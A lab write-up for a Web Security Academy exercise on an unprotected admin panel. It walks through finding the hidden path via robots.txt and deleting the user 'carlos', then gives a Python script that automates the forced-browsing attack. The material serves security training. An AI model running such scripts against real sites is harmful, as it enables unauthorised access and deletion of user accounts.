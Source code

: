 # Lab: Unprotected admin functionality

 This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

---

We search for the `robots.txt` file:  
![image](https://github.com/user-attachments/assets/3b376178-5266-485d-9738-af00b1640f2a)

We navigate to the `administrator-panel` and find that there is no access control in place. The panel provides options to delete users. We click on `carlos - Delete` and solve the lab:  
![image](https://github.com/user-attachments/assets/f63d27dc-dda9-4e41-a238-fd6bd37755ec)

---

# Exploit

```python
from bs4 import BeautifulSoup
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
url = "https://0a2200f603ee15fea792e6e6009a004a.web-security-academy.net"

robots_url = url + "/robots.txt"
robots_content = requests.get(robots_url, verify=False, proxies=proxies)

disallows = [line.split(': ')[1] for line in robots_content.text.splitlines() if line.startswith('Disallow')]
admin_url = url + disallows[0]
admin_panel = requests.get(admin_url, verify=False, proxies=proxies)

soup = BeautifulSoup(admin_panel.text, 'html.parser')
delete_link = soup.find('a', href=lambda href: href and 'delete' in href)
delete_url = delete_link['href']
delete_url = delete_url.replace('wiener', 'carlos')

delete_panel = requests.get(url + delete_url, verify=False, proxies=proxies)

if "User deleted successfully!" in delete_panel.text:
    print("User deleted successfully!")
```

